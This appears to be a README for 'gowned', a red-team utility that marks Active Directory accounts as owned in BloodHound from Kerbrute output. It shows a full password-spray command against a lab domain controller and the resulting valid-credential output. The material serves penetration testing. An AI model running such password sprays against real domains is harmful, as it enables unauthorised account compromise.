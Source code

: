 Mark users as owned in BloodHound from various sources

# Tools

- [X] Kerbrute
- [ ] SharpSpray

# Usage

## Using Kerbrute

``` console
$ kerbrute passwordspray list_of_users.txt --dc 192.168.30.51 --domain MARVEL.local 'P@ssword321' | gowned -source 'kerbrute' -output

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (n/a) - 03/08/24 - Ronnie Flathers @ropnop

2024/03/08 14:37:43 >  Using KDC(s):
2024/03/08 14:37:43 >   192.168.30.51:88

2024/03/08 14:37:43 >  [+] VALID LOGIN:  aaa@MARVEL.local:P@ssword321
2024/03/08 14:37:43 >  [+] VALID LOGIN:  bbb@MARVEL.local:P@ssword321
2024/03/08 14:37:43 >  [+] VALID LOGIN:  ccc@MARVEL.local:P@ssword321
2024/03/08 14:37:43 >  [+] VALID LOGIN:  ddd@MARVEL.local:P@ssword321
2024/03/08 14:37:43 >  Done! Tested 41 logins (4 successes) in 0.280 seconds
2024/03/08 14:37:43 Added aaa@MARVEL.local as owned
2024/03/08 14:37:43 Added bbb@MARVEL.local as owned
2024/03/08 14:37:43 Added ccc@MARVEL.local as owned
2024/03/08 14:37:43 Added ddd@MARVEL.local as owned
```

Note that is also possible to `cat` a kerbrute output file, something like 

```console
$ cat temp.txt | gowned -source 'kerbrute'
```